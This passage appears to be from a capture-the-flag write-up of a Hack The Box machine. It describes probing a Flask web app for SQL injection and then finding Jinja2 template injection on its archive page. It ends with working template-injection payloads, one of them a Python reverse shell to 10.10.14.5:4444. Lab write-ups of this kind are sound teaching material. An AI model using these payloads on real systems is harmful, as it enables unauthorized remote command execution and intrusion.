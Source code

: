 ![Admin post screenshot](/img/htb/doctor/website-adminpost.png)

At this point, I started testing all of the various forms for SQL injection vulnerabilities (login, register, forgot password, edit account, new post, and edit post). In case you are unfamiliar, a SQL injection vulnerability is present when unsanitized input is passed directly into a SQL query. This can lead to arbitrary SQL code execution against a target database. For more details on SQL injection, please see PortSwigger's [Web Security Academy SQL Injection section](https://portswigger.net/web-security/sql-injection). None of the forms were vulnerable to SQL injection unfortunately.

Then, I started testing for server-side template injection (SSTI) vulnerabilities. An SSTI vulnerability is present when unsanitized input is passed to a template _before_ it is rendered, rather than as an input to the render engine as it renders the template. Since I knew Flask was being used, I tested for SSTI using a payload for Jinja2, a Python templating package used by Flask, Ansible, and more. For more information on SSTI and how to exploit it in Jinja, please see [this blog post](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) by ONSECURITY.

I made a new post using my SSTI test payloads. When rendered on the homepage, it wasn't executing the payload, so it wasn't vulnerable:

![Website home page with SSTI payload screenshot](/img/htb/doctor/website-ssti.png)

But when I checked the `/archive` page, I saw that it executed the payload in the post title. Excellent! I now knew the vulnerability in the web app that I needed to exploit.

![Archive with SSTI payload screenshot](/img/htb/doctor/archive-ssti.png)

## Web App Exploitation

My goal for exploiting the application was to leverage the SSTI vulnerability to pop a shell on the system. To do this, I built a payload that allowed me to access the Python globals, and from there pivot to the `os` module to spawn a reverse shell. 

I could have done this by starting with an object I create (e.g., an empty string, `""`), and pivoting through some of the internal datastructures (`__class_`, `__mro__`, etc.), but I decided to utilize the `request` object that will be present in the template, thanks to Flask. This enables me to have a constant payload that doesn't require environment-specific array indexes to pivot throughout the internal datastructures.

First, I wanted to test and make sure my payload would work. I created a post with the following SSTI payload, and made sure I got the expected output:

```
{{ request.application.__globals__.__builtins__.__import__("os").popen("uname -a").read() }}
```

![Archive with SSTI payload executing "uname -a" screenshot](/img/htb/doctor/archive-uname.png)

Perfect! Then I used a similar payload to pop a reverse shell back to my VM for some hands-on keyboard activity:

```
{{ request.application.__globals__.__builtins__.__import__("os").popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.5\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'").read() }}
```
